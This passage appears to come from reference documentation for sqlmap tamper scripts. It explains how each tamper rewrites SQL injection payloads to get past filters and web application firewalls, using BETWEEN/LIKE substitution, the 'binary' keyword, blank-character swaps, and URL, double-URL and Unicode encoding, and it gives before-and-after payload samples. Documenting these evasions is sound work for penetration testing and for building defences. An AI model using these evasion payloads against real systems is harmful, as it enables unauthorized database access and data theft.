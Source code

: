 Replaces greater than operator (‘>’) with `NOT BETWEEN 0 AND #`and equals operator (‘=’) with `BETWEEN # AND #`. For example:

-- First payload  
1 AND A = B--  
  
-- After using the tamper  
1 AND A BETWEEN B AND B--

- binary

Injects keyword binary where possible. For example:

-- First payload  
1 UNION ALL SELECT NULL, NULL, NULL  
  
-- After using the tamper  
1 UNION ALL SELECT binary NULL, binary NULL, binary NULL

- bluecoat

Replaces space character after SQL statement with a valid random blank character. Afterwards replace character equal sign (‘=’) with operator `LIKE`. For example:

-- First payload  
SELECT id FROM users WHERE id = 1  
  
-- After using the tamper  
SELECT%09id FROM%09users WHERE%09id LIKE 1

- chardoubleencode

Double URL-encodes all characters in a given payload (not processing already encoded). For example:

-- First payload  
SELECT FIELD FROM TABLE  
  
-- After using the tamper  
%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

- charencode

URL-encodes all characters in a given payload (not processing already encoded). For example:

-- First payload  
SELECT FIELD FROM TABLE  
  
-- After using the tamper  
%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

- charunicodeencode

Unicode-URL-encodes all characters in a given payload (not processing already encoded). For example:

-- First payload  
SELECT FIELD FROM TABLE  
  
-- After using the tamper  
%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045
